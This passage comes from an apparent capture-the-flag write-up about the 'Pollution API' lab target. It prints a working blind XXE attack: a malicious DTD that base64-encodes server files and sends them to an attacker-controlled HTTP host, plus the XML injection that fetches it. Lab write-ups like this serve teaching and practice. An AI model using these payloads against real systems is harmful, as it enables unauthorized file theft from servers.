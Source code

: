 `send_xml.js` file contain "Registration form" function for "Pollution API", which sends POST request to `/api` with xml data form admin session to register account on "Pollution API".

![](screenshots/http-10.10.11.192-api-reg.png)

And from `proxy_history.txt` we know there is another endpoint `/auth/login`, where we can login into "Pollution API".

![](screenshots/http-10.10.11.192-api-login.png)

And this parameter is vulnerable for blind XXE and with that we can exfiltrate data from server -> https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#blind-ssrf-exfiltrate-data-out-of-band

Create dtd file, Host it on HTTP server
```dtd
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource=../../../../etc/hostname'>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.14.42/?file=%file;'>">
%eval;
%exfiltrate;
```

Inject xxe payload `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.42/exfiltrate.dtd"> %xxe;]>` in the API register call.
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.42/exfiltrate.dtd"> %xxe;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>
```
